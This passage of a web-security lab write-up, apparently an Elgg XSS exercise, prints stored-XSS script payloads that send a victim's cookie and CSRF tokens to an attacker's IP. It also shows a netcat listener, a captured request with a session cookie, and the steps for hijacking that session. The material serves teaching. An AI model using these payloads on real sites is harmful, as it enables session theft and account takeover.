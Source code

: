 ```html
<script>document.write('<img src=http://192.168.56.4:1234?c='+escape(document.cookie)+'  >');</script>
```

The IP address for the http part is the attacker’s IP address. On the attacker machine we can listen o the specified port using netcat or any other means.

```bash
nc -l -p 1234
```

The next time someone on the web application, say `alice` visits the profile of `user11`, the code gets executed and the attacker gains the cookie for himself. The nc output seems like -

```
GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

The cookie starts after `%3D`.

## Task 4 : session hijacking using the stolen cookies

This task is about stealing the session of a legitimate user by using their cookie and then add the victim as a friend. To do this the process of adding a friend has to be known to the attacker. Therefore, the attacker creates another account say `samy`. This account can be added as a friend to `user11`’s account to observe the process of adding a friend. The attacker logs in to the account of `samy` and visits `user11`. Then he enables the inspect mode of the browser to watch the requests ad cookies as he adds `user11` as a friend to `samy`. The friend addig process then shows a GET request -

```
http://www.xsslabelgg.com/action/friends/add?friend=43&__elgg_ts=152022381&__elgg_token=f0aaab1d9af23flb3lb876bfa5640cel
```

Also, the cookie is sent as a part of the request header. Therefore, the 3 important things noted are - 1. the `friend=43` part which specifies the umber associated with the `user11` account. 2. the cookie sent as a part of request header. 3. the two parts `__elgg_ts` and `__elgg_token` which are tokens used as a countermeasure against the cross site request forgery attack. The above have to be found and can also be found on the view-source page of the website. The two tokens are stored in variables as mentioned above and since they are different for every web user, even if the attacker does not know the tokens of user `alice`, the name of the two token variables can be used to call the values. The response part for the request under inspect element can help locate these variables being used as - `elgg.security.token.__elgg_ts` and `elgg.security.token.__elgg_token`. Using these variables, the attack code can be formed. Use of cookie retrieval technique to retrieve the two tokens as well.

```html
<script>document.write('<img src=http://192.168.56.4:1234?c='+elgg.security.token.__elgg_ts+'&'+elgg.security.token.__elgg_token+'  >');</script>
```
